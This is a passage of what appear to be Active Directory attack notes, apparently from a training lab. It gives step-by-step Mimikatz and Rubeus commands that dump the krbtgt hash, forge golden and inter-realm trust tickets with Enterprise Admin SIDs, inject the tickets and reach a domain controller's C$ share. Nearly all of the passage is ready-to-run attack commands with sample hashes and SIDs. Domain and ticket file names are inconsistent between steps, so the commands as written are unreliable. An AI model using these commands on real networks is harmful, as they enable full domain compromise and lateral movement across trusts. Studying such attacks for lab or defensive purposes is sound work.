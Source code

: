     Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:organicsecurity.local /sid:S-1-5-21-1874506631-3219952063-538504511  /sids:S-1-5-21-280534878-1496970234-700767426-519  /rc4:c04dfec49ae75f81d9ff849e4c4f5be9 /service:krbtgt  /target:moneycorp.local /ticket:trust_orangesecurity_tgt.kirbi"'
    
    ```
    
- STEP 3: Use the Inter-Realm TGT to fetch TGS for given service from another forest
    
    ```powershell
    .\Rubeus.exe asktgs /ticket:trust_Dollar2moneycorp_tgt.kirbi /service:CIFS/mcorp-dc.moneycorp.local  /dc:mcorp-dc.moneycorp.local  /ptt
    
    ```
    
- STEP 4: Access the CIFS service from another forest
    
    ```powershell
    ls \\mcorp-dc.moneycorp.local\c$
    
    ```
    

B) Escalating from child domain to parent/root domain using KRBTGT Hash

- STEP 1: Fetch the NTLM hash of KRBTGT Account
    
    ```powershell
    Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
    
    ```
    
- STEP 2: Use it to craft the Golden ticket with SID set to Enterprise Admin
    
    ```powershell
    Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:organicsecurity.local /sid:SID_OF_CURRENT_DOMAIN /sids:SID_OF_ENTERPRISE_ADMINS_FROM_PARENT_DOMAIN  /krbtgt:krbtgt_ntlm_hash  /target:moneycorp.local /ticket:trust_tkt.kirbi"'
    
    Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:organicsecurity.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519  /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /target:mango.local  /ticket:trust_organicsecurity_golden_tgt.kirbi"'
    
    ```
    
- STEP 3: Inject the ticket into the memory
    
    ```powershell
    Invoke-Mimikatz -Command '"kerberos::ptt trust_organicsecurity_golden_tgt.kirbi"'
    
    ```
    

C) Stealthier Method for creating Golden ticket using DC Account

- STEP 1: Fetch the NTLM hash of krbtgt account
- STEP 2: Use mimikatz to craft TGT ticket with SIDS set to Domain Controllers & EnterPrise DC
    
    ```powershell
    Invoke-Mimikatz -Command '"Kerberos::golden /user:DCORP-DC$/domain:dollarcorp.moneycorp.local /sid:SID_OF_CURRENT_DOMAIN /sids:SID_OF_DOMAIN_CONTROLLERS_ENTERPRISE_DC_FROM_PARENT_DOMAIN  /krbtgt:krbtgt_ntlm_hash  /target:moneycorp.local /ticket:trust_tkt.kirbi"'
    